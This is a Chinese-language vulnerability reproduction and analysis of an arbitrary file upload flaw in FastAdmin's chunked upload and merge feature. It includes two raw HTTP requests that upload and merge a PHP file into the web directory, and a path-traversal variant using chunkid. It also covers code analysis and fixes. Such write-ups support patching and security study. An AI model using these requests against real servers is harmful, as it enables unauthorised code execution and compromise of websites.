






# FastAdmin 前台分片传输任意文件上传漏洞

## 简介
FastAdmin 是一款基于 ThinkPHP 5 + Bootstrap 的极速后台开发框架。致力于服务开发者,快速搭建自己属于自己的后台。

## 漏洞概述
2021年3月28日，360漏洞云漏洞研究员发现，FastAdmin框架存在有条件RCE漏洞，由于FastAdmin的前台文件上传功能中提供了分片传输功能, 但在合并分片文件时因对文件路径的拼接处理不当导致可上传任意文件。

## 影响版本
FastAdmin < V1.2.0.20210401_beta
且开启分片传输功能（默认关闭）

## 环境搭建
在官网上下载fastadmin，利用phpstudy搭建环境

```
https://package.fastadmin.net/full/1.2.0.20210125_full.zip
```

先开启分片上传功能，文件位置如下图


访问/public/install.php进行安装，填写数据无脑下一步即可



## 漏洞复现
漏洞需要一个低权限的账号,所以我们需要在前台注册一个普通用户



登陆后在个人资料头像处抓包并上传dog.jpg



更改上传数据包（需要注意图中几处红框的内容）


```
POST /index/ajax/upload HTTP/1.1
Host: test.test
Content-Length: 418
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryurpjX18wIurjSyEp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=rn1k8an9su59qb7ghosafer4vg; think_var=zh-cn; uid=2; token=aad3aa1e-1c65-4ee4-989a-bb3a82a4dd4a
Connection: close

------WebKitFormBoundaryurpjX18wIurjSyEp
Content-Disposition: form-data; name="file"; filename="dog.jpg"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
------WebKitFormBoundaryurpjX18wIurjSyEp
Content-Disposition: form-data; name="chunkid";

test.php
------WebKitFormBoundaryurpjX18wIurjSyEp
Content-Disposition: form-data; name="chunkindex";

0
------WebKitFormBoundaryurpjX18wIurjSyEp--

```

上传成功之后，会在网站路径

C:\phpstudy_pro\WWW\fastadmin\runtime\chunks下生成一个test.php-0.part文件


发送数据包（需要注意图中几处红框的内容）

返回包显示200则代表合并成功



```
POST /index/ajax/upload HTTP/1.1
Host: tets.test
Content-Length: 42
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=mm4ejed8h7hubqq1stmogrut20; think_var=zh-cn; uid=2; token=f5a57bef-2ad2-496a-a4bc-66974bcc4a08
Connection: close

chunkid=test.php&chunkcount=1&action=merge

```

发包后访问

/fastadmin/runtime/chunks/test.php


（漏洞利用存在很大的局限性，首先是需要开启支持分片传输，我在调试的过程中发现，在指定 host 解析，设定网站的根目录为 /fastadmin/public 之后就无法访问  /fastadmin/runtime/chunks 下的文件，虽说如此，但是可以通过设定chunkid的值为 ../xxx.php 就可以实现跨目录的上传）


## 漏洞分析


根据漏洞描述需要开启支持分片上传，所以我们修改

application/extra/upload.php中chunking为 true



同时最新版本已经修复存在的漏洞，修复位置为

application/common/library/Upload.php

复现漏洞时，应注释这个部分


根据上传时的路由信息

/index.php/index/ajax/upload

定位至代码位置

application/index/controller/Ajax.php



漏洞的触发共分为两个过程，上传分片与合并分片

首先关注上传分片的过程 传入参数 chunckid 才会到上传分片的位置

\app\api\controller\Common::upload


\app\common\library\Upload::chunk


在 chunk 方法中，首先对 Content-Type 进行了校验，必须为 application/octet-stream 将传入的参数 chunckid  与  chunckindex 通过 - 连接，最后拼接 .part 最后保存到 /runtime/chunks/

当我们传递的 $chunkid 为 test.php , $chunckindex 为 0 时(参数选择为0，还有别的原因，下表)，最后拼接出的分片文件名为test.php-0.part

然后是合并分片文件的操作，需要传入参数 action=merge 才会到合并分片文件的函数


\app\common\library\Upload::merge


在 merge 方法中会将 $chunkid 的值指定为最后保存的文件名，然后回根据传入的参数$chunkcount遍历查找是否分片文件上传完成，我们仅上传了一个分片文件，所以第一个分片文件应该设定为0，此处 chunkcount 的值应为1

之后就将分片传输的文件写入指定的文件中，最后返回文件信息，即使最后报错提示是不允许的上传类型，但是文件已经保存到 /runtime/chunks/  路径下

在上传对文件名进行校验的情况下，利用分片传输的中最后重命名文件名的特点，绕过对文件名的校验，实现了任意文件上传

## 修复方式
1、关闭分片传输

修改application/extra/upload.php中 chunking 为 false

2、升级FastAdmin版本，其中对 chunkid 做正则判断

## 参考链接
* https://xz.aliyun.com/t/9395
* https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
* https://mp.weixin.qq.com/s/gAerDNnDSl6864oyvDy4nA